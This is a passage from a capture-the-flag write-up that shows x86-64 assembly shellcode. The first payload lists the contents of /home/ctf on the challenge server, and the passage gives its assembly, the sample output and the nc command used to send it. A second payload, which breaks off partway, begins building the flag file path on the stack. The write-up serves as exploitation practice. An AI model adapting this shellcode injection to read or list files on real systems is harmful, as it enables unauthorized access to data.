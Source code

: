 ```s
    mov DWORD PTR [rsp-4], 0x0a
    mov edx, 1
    lea rsi, [rsp-4]
    mov rdi, 1
    mov rax, 1
    syscall

    lea    rdx,[rbp-0x10020]
    mov    rax,QWORD PTR [rbp-0x8]
    add    rax,rdx
    movzx  eax,WORD PTR [rax+0x10]
    movzx  eax,ax
    add    QWORD PTR [rbp-0x8],rax

.cond:
    mov rax, QWORD PTR [rbp-0x18]
    cmp QWORD PTR [rbp-0x8], rax
    jb .loop

    nop
    nop
    leave
    ret
```

Assembling with `as exploit.asm`, extracting the bytes of the function itself into another file called `payload_ls` (I don't know about a good way of doing this, I used `xxd`) and running `./chall < payload_ls` successfully lists the contents of the `/home/ctf` directory (if it exists, we don't really care about error handling).

Sending the payload to the server (`cat payload_ls | nc ...`) returns the following:
```
Anything you want to tell me? 
.
..
flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt
run_challenge.sh
chall
bin
dev
/home/ctf/run_challenge.sh: line 2:  4869 Segmentation fault      ./chall
```

Now we know which file to read to obtain the flag. Let's write another exploit, this time reading the appropriate file.

```s
.intel_syntax noprefix

# Again, overwrite the stack with the file path
# (I generated these (text) instructions with a C program)

mov DWORD PTR [rsp+0x0], 0x6d6f682f
mov DWORD PTR [rsp+0x4], 0x74632f65
mov DWORD PTR [rsp+0x8], 0x6c662f66
mov DWORD PTR [rsp+0xc], 0x332d6761
mov DWORD PTR [rsp+0x10], 0x64323634
mov DWORD PTR [rsp+0x14], 0x38663130
mov DWORD PTR [rsp+0x18], 0x63623165
mov DWORD PTR [rsp+0x1c], 0x38643063
mov DWORD PTR [rsp+0x20], 0x63383133
mov DWORD PTR [rsp+0x24], 0x34636534
mov DWORD PTR [rsp+0x28], 0x64643032
mov DWORD PTR [rsp+0x2c], 0x61323834
mov DWORD PTR [rsp+0x30], 0x64623238
```